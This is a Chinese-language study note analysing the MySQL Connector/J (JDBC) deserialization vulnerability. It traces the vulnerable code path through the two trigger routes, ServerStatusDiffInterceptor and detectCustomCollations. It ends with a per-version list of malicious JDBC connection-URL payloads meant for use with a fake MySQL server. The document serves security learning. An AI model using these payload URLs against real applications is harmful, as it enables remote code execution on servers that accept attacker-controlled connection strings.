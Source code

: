 ```yaml
---
created: '22/03/03'
title: JDBC
tags:
  - java
  - java安全
---
```

# JDBC

## 什么是JDBC
> JDBC一般指Java数据库连接。Java数据库连接，（Java Data Base Connectivity，简称JDBC）
> 是一种用于执行SQL语句的Java API，可以为多种关系数据库提供统一访问，它由一组用Java语言编写的类和接口组成。JDBC提供了一种基准，据此可以构建更高级的工具和接口，使数据库开发人员能够编写数据库应用程序。

![](https://gitee.com/guuest/images/raw/master/img/20220303103911.png)
![](https://gitee.com/guuest/images/raw/master/img/20220303103920.png)

一个简单的示例如下:
```java
import java.sql.*;

public class Test {
    public static void main(String[] args) throws ClassNotFoundException, SQLException {
        String Driver = "com.mysql.cj.jdbc.Driver";
        String DB_URL = "jdbc:mysql://127.0.0.1:3306/test?serverTimezone=UTC";
        Class.forName(Driver);
        // 连接数据库
        Connection conn = DriverManager.getConnection(DB_URL, "root", "root");
        // 操作数据库
        Statement stmt = conn.createStatement();
        ResultSet rs = stmt.executeQuery("SELECT * FROM users");
        while (rs.next()) {
            System.out.println(rs.getString("username") + " : " + rs.getString("password"));
        }
    }
}
```


## JDBC反序列化漏洞简介
如果攻击者能够控制JDBC连接设置项(即上面示例中的`DB_URL`)，那么就可以通过设置其指向恶意MySQL服务器进行ObjectInputStream.readObject()的反序列化攻击从而RCE。

具体点说，就是通过JDBC连接MySQL服务端时，会有几个内置的SQL查询语句要执行，其中两个查询的结果集在MySQL客户端被处理时会调用ObjectInputStream.readObject()进行反序列化操作。

可被利用的两条查询语句：
-   SHOW SESSION STATUS
-   SHOW COLLATION

## JDBC反序列化漏洞分析
反序列化点(`readObject()`)在`com.mysql.cj.jdbc.result.ResultSetImpl`的`public Object getObject(int columnIndex)`的`switch`条件语句中，存在两处反序列化点，一处是`case BIT`，另一处是`case BLOB`:
![](https://gitee.com/guuest/images/raw/master/img/20220303111234.png)

![](https://gitee.com/guuest/images/raw/master/img/20220303111318.png)

那么我们就需要了解一下`getObject()`方法的作用，参考[jdbc的文档]([https://dev.mysql.com/doc/connector-j/8.0/en/connector-j-reference-type-conversions.html](https://dev.mysql.com/doc/connector-j/8.0/en/connector-j-reference-type-conversions.html))
> `ResultSet.getObject()`方法是用于MySQL和Java类型之间的类型转换

而其中`BIT`和`BLOB`就是MySQL里的一种数据格式，也就是说如果我们数据中返回了`BIT`或者`BLOB`类型的数据，jdbc会尝试将其反序列化为java对象，这里就可能存在反序列化漏洞。

我们再来了解一下`BIT`和`BLOB`这两种MYSQL的数据格式:
`BLOB`：
> `BLOB`为二进制形式的长文本数据，大小是0-65535 bytes

`BIT`：
> Bit数据类型用来存储bit值 BIT(M)代表可以存储M个bit，M的取值范围为1到64 如果手工指定bit值，则可以使用b'value'格式，比如b'111'和 b'10000000'分别代表7和128

根据上面的介绍，我们将重点放在了BLOB这个数据格式，再分析一下代码逻辑，先获取结果集中的一列，判断其的mysql数据类型:
![](https://gitee.com/guuest/images/raw/master/img/20220303112147.png)

接下来是判断几个条件: 
1. filed是binary或者blob
2. 配置中的autoDeserialize为`true`
3. `data`满足第一位为`-84`第二位为`-19`，实际上为java序列化对象魔术头: `AC(0xAC == 256 - 84) ED(0xED == 256 - 19)`
![](https://gitee.com/guuest/images/raw/master/img/20220303112313.png)

### ServerStatusDiffInterceptor触发方式
通过上面的了解，我们知道只要调用到`ResultSetImpl.getObject()`方法，就有机会造成反序列化。我们来看看这个类触发方式的payload(8.x，不同jdbc版本的payload不一样):
```
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor
```

这里传入了2个参数，一个是我们上文提到的`autoDeserialize`，将其设置为`true`才有机会进入反序列化，第二个参数则是`queryInterceptors`，这是一个新的参数，通过查询jdbc的文档知道它一个逗号分割的Class列表（实现了com.mysql.cj.interceptors.QueryInterceptor接口的类），在Query”之间”进行执行来影响结果。（效果上来看是在Query执行前后各插入一次操作）；

我们这里用到的`ServerStatusDiffInterceptor`就是一个实现了`com.mysql.cj.interceptors.QueryInterceptor`的类，其具体触发方式如下，先触发了`ServerStatusDiffInterceptor.preProcess()`方法:
![](https://gitee.com/guuest/images/raw/master/img/20220303113816.png)

继续跟进，会调用`ServerStatusDiffInterceptor.populateMapWithSessionStatusValues()`方法，其会执行`SHOW SESSION STATUS`，然后将结果传入`ResultSetUtil.resultSetToMap()`方法:
![](https://gitee.com/guuest/images/raw/master/img/20220303113939.png)

这里最终调用到了`ResultSetImpl.getObject()`方法:
![](https://gitee.com/guuest/images/raw/master/img/20220303115853.png)

### detectCustomCollations触发方式
这里的`detectCustomCollations`是jdbc链接时的一个选项，这个选项是从5.1.29开始的，经过代码比对，可以认为`detectCustomCollations`这个选项在5.1.29之前一直为true。我们来看看这个类触发方式的payload:
```
jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true
```

触发点在`com.mysql.jdbc.ConnectionImpl`的`buildCollationMapping`方法中，这里可以看到需要满足2个条件：
1. 服务器版本大于等于4.1.0
2. `detectCustomCollations`选项为`true`
![](https://gitee.com/guuest/images/raw/master/img/20220303120652.png)

后续的分析和上面是一样的，其会执行`SHOW COLLATION`语句并将将结果传入`ResultSetUtil.resultSetToMap()`方法，最后调用到`ResultSetImpl.getObject()`方法。

## 利用方式
实际上利用方式就是构造一个Mysql的虚假服务器，在执行对应语句时返回BLOB类型的数据(恶意的java序列化对象)，一般我们会使用现有的项目: [MySQL_Fake_Server](https://github.com/fnmsd/MySQL_Fake_Server)

## 各个版本payload总结
这里参考[这篇文章](https://blog.csdn.net/fnmsd/article/details/106232092):

**ServerStatusDiffInterceptor触发：**
**8.x:**`jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`
**6.x(属性名不同):**`jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`
**5.1.11及以上的5.x版本（包名没有了cj）:**`jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`
**5.1.10及以下的5.1.X版本：** 同上，但是需要连接后执行查询。
**5.0.x:** 还没有`ServerStatusDiffInterceptor`这个东西┓( ´∀` )┏

**detectCustomCollations触发：**
**6.0.7及以上:** 不可用
**6.0.2-6.0.6:** `jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_JRE8u20_calc`
**5.1.40-5.1.48:** 需要对[fnmsd/MySQL_Fake_Server](https://github.com/fnmsd/MySQL_Fake_Server)项目稍作调整，将第三个字段也填充为序列化数据即可。![](https://gitee.com/guuest/images/raw/master/img/20220304094851.png)
`jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_JRE8u20_calc`
**5.1.29-5.1.39:**`jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_JRE8u20_calc`
**5.1.19-5.1.28：**`jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&user=yso_JRE8u20_calc`
**5.1.0-5.1.18：** 不可用
**5.0.x:** 不可用


## 参考文章
1. https://www.anquanke.com/post/id/203086
2. https://blog.csdn.net/fnmsd/article/details/106232092
3. https://c014.cn/blog/java/JDBC/MySQL%20JDBC%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90.html
4. https://github.com/fnmsd/MySQL_Fake_Server
5. https://xz.aliyun.com/t/10923
